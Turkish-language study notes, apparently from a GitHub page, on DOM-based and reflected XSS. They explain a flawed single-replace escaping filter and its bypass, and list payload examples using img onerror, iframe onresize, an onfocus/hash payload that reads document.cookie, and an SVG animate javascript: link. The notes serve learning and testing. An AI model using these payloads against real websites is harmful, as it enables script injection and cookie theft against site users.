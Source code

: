 ##### Replace() fonksiyonu bypass: 
`<` karakterlerinin HTML etiketlerini aşmasını engellemek için yorum metnine gelen tüm `<` işaretlerini `replace("<", "&lt;")` ile dönüştürmek için kullanılması sıkıntılara yol açabiliyor. Görünürde makul bir önlem gibi duruyor, ancak JavaScript’te
`commentText.replace("<", "&lt;")`
ifadeleri sadece ilk eşleşmeyi değiştirir ve sonradan gelen `< >` gibi karakterler olduğu gibi bırakılır.
bypass olarak da şöyle çalışabiliriz.
`<><img src=1 onerror=alert(1)>` ile önce ilk gelen `<>` karakterleri aşıp kodun çalışmasını sağlıyoruz.

```js
 let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author)
firstPElement.innerHTML = newInnerHtml
```

innerHTML ile başka filtreleme olmadan direkt html içerisine yazdırıldığından javascript kodları çalışıyor.

### Dom XSS de bilinmesi gerekenler :

1. **`innerHTML` ile `<script>` etiketinin çalışmaması:**
		- Modern tarayıcılar, `innerHTML` kullanılarak DOM'a eklenen `<script>` etiketlerini **yürütmezler**.
		- Bu, XSS saldırılarında `innerHTML` sink'inin kolayca kullanılmasını engellemek içindir.
		- Tarayıcılar innerHTML ile gelen `<script>` 'leri sadece **HTML olarak** kabul eder ama **çalıştırmaz**. Yani DOM'a girer ama çalışmaz.
2.

---
### XSS Payload örnekleri :

#### 1- Reflected Between HTML tag:

1- 1. Reflected XSS - Iframe + `onresize` Tetikleyicisi:

`<iframe src="https://website.com/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`

XSS payloadının çalışması için onresize ile sayfa boyutunun değişikliğinin yapılması gerekiyor. Web site iframe açabildiğinden iframe üzerinden otomatik boyutunu değiştiriyoruz.
	
**2-`onfocus` + `hash` Payload:**
`<script> location = 'https://website.com/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>`

iframe ile olduğu gibi script ile de payload çalıştırılmasını sağlayabiliriz. Burada `<xss>` tagı ile custom payload oluşturuyoruz. 
- `search=<xss id=x ...>`: DOM'a odaklanabilir (`tabindex=1`) bir element enjekte edilir.
- `onfocus=alert(...)`: Bu elemana odaklanıldığında XSS çalışır.
- `#x`: Hash ile otomatik olarak `id="x"` olan elemana odaklanılır.

**3-  `SVG + animate` Payload:**
`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>`
